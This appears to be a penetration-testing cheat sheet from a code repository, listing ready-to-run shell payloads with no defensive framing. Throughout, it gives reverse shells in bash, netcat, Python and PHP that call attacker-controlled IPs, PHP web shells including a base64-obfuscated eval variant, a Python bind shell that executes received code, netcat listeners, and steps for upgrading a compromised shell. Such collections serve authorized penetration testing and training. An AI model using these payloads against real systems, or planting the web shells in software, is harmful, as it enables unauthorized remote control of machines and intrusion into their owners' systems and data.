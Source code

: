 # Shell Cheatsheet

## Reverse Shell

### Shell

Using FIFO

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

```
nc -e /bin/sh 10.0.0.1 1234
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code:
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Reverse shell using a socket
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bind Shell

### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```


## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Web Shells Introduction](https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
